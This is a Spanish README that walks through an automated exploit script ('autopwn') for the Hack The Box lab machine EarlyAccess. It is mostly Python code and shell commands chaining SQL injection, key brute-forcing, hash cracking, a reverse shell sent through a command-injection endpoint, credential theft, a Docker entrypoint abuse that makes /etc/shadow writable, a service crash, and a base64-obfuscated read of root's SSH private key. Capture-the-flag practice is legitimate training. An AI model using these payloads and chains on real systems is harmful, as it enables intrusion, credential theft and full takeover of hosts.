

# Autopwn - EarlyAccess

En caso de no haber realizado la máquina EarlyAccess, es recomendable revisar el [writeup](https://mrpr1ngl3s.github.io/htb/EarlyAccess) para comprender el autopwn.

<p align="center">
	
</p>


# Funcionamiento

El primer paso que realiza el script es en la creación y la modificación del usuario, para ello accede a la función **Register** obteniendo primero el token para la creación del usuario utilizando el **session** para que el token no cambie entre solicitudes.

```python
s = requests.session()
```

```python
def Register():

	url_register = "https://earlyaccess.htb/register"

	r = s.get(url_register, verify=False)

	token = re.findall('name="_token" value="(.*?)"',r.text)[0]

	data_post = {
		'_token': token,
		'name': name,
		'email': email,
		'password': password,
		'password_confirmation': password2
	}

	r = s.post(url_register, data=data_post, verify=False)
```

Luego, tras la creación del usuario, con la función **Login** obtiene la sesión del usuario.

```python
def Login():
	url_login = "https://earlyaccess.htb/login"

	data_post = {
		'_token': token,
		'email': email,
		'password': password
	}

	r = s.post(url_login, data=data_post, verify=False)
```


Para luego utilizar la función **Update_name** con la cual realiza la modificación del nombre de usuario para el SQLi, además los datos se envían en formato **JSON** por lo que se utilizó la librería **json** para convertir los datos a **JSON**, pero para realzar el cambio de nombre se tuvo que primero obtener datos necesarios para la modificación, como por ejemplo los valores **token**, **htmlHash**, **checksum** etc, ya que por cada petición los valores iban cambiando.
```python
def Update_name(old_name,new_name):
	url_update = "https://earlyaccess.htb/livewire/message/profile.update-profile-information-form"

	url_profile = "https://earlyaccess.htb/user/profile"

	r = s.get(url_profile, verify=False)

	token = re.findall('name="_token" value="(.*?)"',r.text)[0]

	id = re.findall('id&quot;:&quot;(.*?)&quot;', r.text)[1]

	data_id = int(re.findall('state&quot;:{&quot;id&quot;:(.*?),&quot;',r.text)[0])

	htmlHash = re.findall('htmlHash&quot;:&quot;(.*?)&quot;', r.text)[1]

	checksum = re.findall('checksum&quot;:&quot;(.*?)&quot;', r.text)[1]

	created_at = re.findall('created_at&quot;:&quot;(.*?)&quot;', r.text)[0]

	updated_at = re.findall('updated_at&quot;:&quot;(.*?)&quot;', r.text)[0]

	headers = {"Content-Type":"application/json","X-Csrf-Token":token}

	data_post = {
	    "fingerprint":{
	        "id":id,
	        "name":"profile.update-profile-information-form",
	        "locale":"en",
	        "path":"user/profile",
	        "method":"GET"
	    },
	    "serverMemo":{
	        "children":[],
	        "errors":[],
	        "htmlHash":htmlHash,
	        "data":{
	            "state":{
	                "id":data_id,
	                "name":old_name,
	                "email":"pr1ngl3s@pr1ngl3s.com",
	                "role":"user",
	                "key":None,
	                "created_at":created_at,
	                "updated_at":updated_at
	            },
	            "photo":None
	        },
	        "dataMeta":[],
	        "checksum":checksum
	    },
	    "updates":[
	        {
	            "type":"syncInput",
	            "payload":{
	                "name":"state.name",
	                "value": new_name
	            }
	        },
	        {
	            "type":"callMethod",
	            "payload":{
	                "method":"updateProfileInformation",
	                "params":[]
	            }
	        }
	    ]
	}

	r = s.post(url_update, data=json.dumps(data_post),headers=headers, verify=False)
```
Luego para acceder al subdominio **dev** se ejecutó la función **Key_Gen** el cual genera la clave necesaria para luego enviarla, y así acceder al subdominio.

```python
def calc_g3():
	r = product(string.ascii_uppercase, repeat=2)

	r2 = [ "".join(x) for x in r ]


	com = {}

	for x in r2:
		for i in range(0,10):
			key = f"XP{x}{i}"

			value = sum(bytearray(key.encode()))

			com[value] = key

	return com.values()


def checksum_calc(key):
	gs = key.split('-')[:]
	return sum([sum(bytearray(g.encode())) for g in gs])

def Key_Gen():
	values = calc_g3()

	total_keys = []

	for x in values:
		key = f"KEY98-KY5Z3-{x}-GAML8-"
		cs = checksum_calc(key)
		key = key + str(cs)

		total_keys.append(key)

	try_keys(total_keys)

def try_keys(keys):

	key_verify_url = "https://earlyaccess.htb/key/add"

	cont = 1

	for key in keys:

		url_token = "https://earlyaccess.htb/login"

		r = s.get(url_key, verify=False)

		token = re.findall('name="_token" value="(.*?)"',r.text)[0]

		data_post = {
			'_token': token,
			'key': key
		}

		r = s.post(key_verify_url, verify=False, data=data_post)

		if "Game-key is invalid!" not in r.text:
			break

		cont += 1
```

Seguido de esto, con la función **GetPassAdmin** accede al subdominio utilizando de nuevo el **session** para que la sesión no cambie, y así envía una petición por GET para crear una puntuación y así poder acceder al marcado y obtener el **hash** del usuario **admin**, con la cual mediante la función **crack_hash** meterla en un archivo, y ejecutando la herramienta **john** rompe del hash para obtener la contraseña y guardarla en la variable **pass_admin**.

```python
pass_admin = GetPassAdmin()
```

```python
def GetPassAdmin():

	url_game_login = "http://game.earlyaccess.htb/actions/login.php"

	url_set_score = "http://game.earlyaccess.htb/actions/score.php?score=0"

	url_scoreboard = "http://game.earlyaccess.htb/scoreboard.php"


	data_post = {
		'email': email,
		'password': password
	}

	r = s.post(url_game_login, data=data_post, verify=False)

	r = s.get(url_set_score, verify=False)

	r = s.get(url_scoreboard, verify=False)

	hash = re.findall('<tbody><tr><td>(.*?)</td>', r.text)[0]

	return crack_hash(hash)

def crack_hash(hash):

	with open('hash', 'w') as file:
		file.write(hash)


	os.system("john -w=/usr/share/wordlists/rockyou.txt hash > pass 2>/dev/null; cat pass | grep \"(?)\" | cut -d' ' -f1 | sponge pass")

	with open('pass', 'r') as file:

		Pass = file.read()

	return Pass.replace('\n','')
```

Con la contraseña ya obtenida, accede al panel de login del usuario admin con la función **Login_admin**, para guardar la sesión y con la función **SendShell** la cual está jugando con la librería **multiprocessing** para utilizar hilos y envía la ReverseShell estando en escucha en la función **Get_Shell**.

```python
Login_admin(pass_admin)

multiprocessing.Process(target=Send_Shell).start()
```

```python
def Login_admin(pass_admin):
	url_login_admin = "http://dev.earlyaccess.htb/actions/login.php"

	data_post = {
		'password': pass_admin
	}

	r = s.post(url_login_admin,data=data_post)

def Send_Shell():

	url_hash = "http://dev.earlyaccess.htb/actions/hash.php"

	data_post = {
		'action': 'hash',
		'redirect': 'true',
		'password': "bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'",
		'hash_function': 'system',
		'debug': 'test'
	}

	r = s.post(url_hash, data=data_post)
```

En la función **Get_Shell** tras recibir la ReverseShell envía el contenido del archivo que contiene la contraseña del usuario **dew** usando **recv** para recibir los datos en fragmentos con los cuales luego crear un archivo que contendrá esos datos.

```python
Get_Shell()
```

```python
def Get_Shell():
	with listen('443', timeout=20) as shell:
		shell.sendline("cd /tmp".encode('utf-8'))
		shell.sendline("su www-adm".encode('utf-8'))
		time.sleep(1)
		shell.sendline(f"{pass_admin}".encode('utf-8'))
		shell.sendline("wget http://172.18.0.101:5000/check_db".encode('utf-8'))
		time.sleep(1)
		shell.sendline("cat check_db".encode('utf-8'))

		datos_recibidos = b""

		while True:
			datos = shell.recv(4096)
			if not datos:
				break
			datos_recibidos += datos

		with open('check_db', 'wb') as f:
			f.write(datos_recibidos)
```

Con el archivo ya creado, en la función **Get_Credentials** utilizando la librería **re** obtiene mediante expresiónes regulares el nombre de usuario y la contraseña guardándolas en las variables **User_drew** y **Pass_drew**.


```python
User_drew, Pass_drew = Get_Credentials()
```

```python
def Get_Credentials():

	with open('check_db', 'r') as file:
		check_db = file.read()

	os.remove("check_db")

	return	re.findall(r'\"MYSQL_USER=(.*?)\"', check_db)[0],re.findall(r'\"MYSQL_ROOT_PASSWORD=(.*?)\"', check_db)[0]
```

Teniendo ya las credenciales, accede vía SSH como el usuario **drew** y realiza un bucle a la montura del contenedor, el cual crea un archivo que le da permisos de ejecución al **/etc/shadow**.

```python
multiprocessing.Process(args=(User_drew,Pass_drew,),target=Drew).start()
```
```python
def Drew(username,password):
	client = paramiko.SSHClient()

	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	client.connect('10.10.11.110', username=username, password=password)

	client.exec_command("while true; do echo 'chmod 777 /etc/shadow' > /opt/docker-entrypoint.d/test; chmod +x /opt/docker-entrypoint.d/test; sleep 1;done")

	sleep(10)

	client.close()
```

Mientras en la función **Game_Tester** accede vía SSH para luego como el usuario **game-tester** realizar la caída del servidor.


```python
Game_Tester2(User_drew, Pass_drew)
```

```python
def Game_Tester2(username,password):
	client = paramiko.SSHClient()
	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	client.connect('10.10.11.110', username=username, password=password)

	stdin, stdout, stderr = client.exec_command('ssh -o StrictHostKeyChecking=no game-tester@$(for x in $(seq 2 254); do ((ping -c 1 172.19.0.$x 1>/dev/null) && echo '' > /dev/tcp/172.19.0.$x/22 && echo "172.19.0.$x" &); done 2>/dev/null) "curl http://127.0.0.1:9999/autoplay -d \'rounds=-1\'"')

```

Con el contenedor ya reiniciado, en la función **Get_Hash_Adm** obtiene el hash del usuario **game-adm** accediendo al **/etc/shadow/** y guardándola en un archivo, para luego romperla con la herramienta **john**.

```python
def Get_Hash_Adm(username,password):
	client = paramiko.SSHClient()
	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	client.connect('10.10.11.110', username=username, password=password)

	stdin, stdout, stderr = client.exec_command('ssh -o StrictHostKeyChecking=no game-tester@$(for x in $(seq 2 254); do ((ping -c 1 172.19.0.$x 1>/dev/null) && echo '' > /dev/tcp/172.19.0.$x/22 && echo "172.19.0.$x" &); done 2>/dev/null) "cat /etc/shadow | grep \'game-adm\' | cut -d\':\' -f2"')

	Hash_Adm = stdout.read().decode('utf-8')

	with open('hash_adm', 'w') as f:
            f.write(Hash_Adm)

	client.close()
```

```python
os.system("john -w=/usr/share/wordlists/rockyou.txt hash_adm > pass 2>/dev/null; cat pass | grep \"(?)\" | cut -d' ' -f1 | sponge pass")
```

Finalmente, en la función **GetID_RSA** obtiene la clave privada el usuario **root**, pero para evitar problemas se codificó la obtención del id_rsa en base64 para luego ejecutarla.

```python
GetID_RSA(User_drew, Pass_drew, "game-adm", Pass_Adm)
```

```python
def GetID_RSA(username,password, username_adm, password_adm):
	client = paramiko.SSHClient()
	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	client.connect("10.10.11.110", username=username, password=password)

	stdin, stdout, stderr = client.exec_command(f'su {username_adm} -c "echo \"L3Vzci9zYmluL2FycCAtZiAtdiAnL3Jvb3QvLnNzaC9pZF9yc2EnIDI+JjEgfCBncmVwIC12RSAnYXJwfGZvcm1hdHxob3N0JyB8IHNlZCAncy8+PiAvLycK\" | base64 -d | bash"')
	time.sleep(1)
	stdin.write(f'{password_adm}\n')

	id_rsa = stdout.read().decode('utf-8')

	with open('id_rsa', 'w') as f:
            f.write(id_rsa)
```

Y así con la clave ya obtenida, utilizando la función **GetRoot_Shell** accede como el usuario **root**.
```python
def GetRoot_Shell():
	ssh_command = "ssh -i id_rsa root@10.10.11.110"

	ssh_session = pexpect.spawn(ssh_command, timeout=None)

	ssh_session.interact()
```
